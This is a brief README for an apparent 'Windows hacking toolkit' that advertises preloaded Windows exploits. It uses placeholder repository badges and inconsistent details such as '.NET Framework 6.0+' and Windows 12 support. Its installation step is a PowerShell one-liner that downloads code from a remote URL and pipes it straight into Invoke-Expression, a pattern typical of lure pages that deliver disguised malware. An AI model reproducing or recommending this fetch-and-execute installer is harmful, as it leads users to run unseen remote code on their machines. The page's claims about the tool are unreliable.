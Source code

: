 # [NAME]

![Banner](https://i.postimg.cc/05LM1bYD/e0a4f47f-0736-4eee-9791-425172eba9ba.png)

![GitHub release](https://img.shields.io/github/v/release/owner/repo?style=for-the-badge)
![License](https://img.shields.io/github/license/owner/repo?style=for-the-badge)
![Windows](https://img.shields.io/badge/Windows-10%2F11-0078D6?style=for-the-badge&logo=windows)

**Optimized Windows hacking toolkit for 2025** – A powerful, lightweight cybersecurity tool designed for penetration testing, system diagnostics, and security research on Windows platforms.

## Key Features
- 🚀 **Modern Exploit Framework** – Pre-loaded with latest Windows 11/10 vulnerabilities  
- 🔒 **Privacy-Focused** – No telemetry, no data collection  
- ⚡ **Performance Optimized** – Low resource usage, high efficiency  
- 📊 **Comprehensive Reporting** – Automated PDF/HTML vulnerability reports  

## Installation
```powershell
iwr -Uri "https://install.script" -UseBasicParsing | iex
```

## Usage
```bash
hack-toolkit --scan --target 192.168.1.1 --report html
```

## System Requirements
- Windows 10/11 (x64)  
- 4GB RAM (8GB recommended)  
- .NET Framework 6.0+  

## Future Roadmap (2025)
- Windows 12 compatibility  
- AI-assisted vulnerability detection  
- Cloud pentesting modules  

![GitHub contributors](https://img.shields.io/github/contributors/owner/repo)
![GitHub last commit](https://img.shields.io/github/last-commit/owner/repo)

## Legal Disclaimer
This tool is for **educational and authorized testing purposes only**. The developers assume no liability for misuse.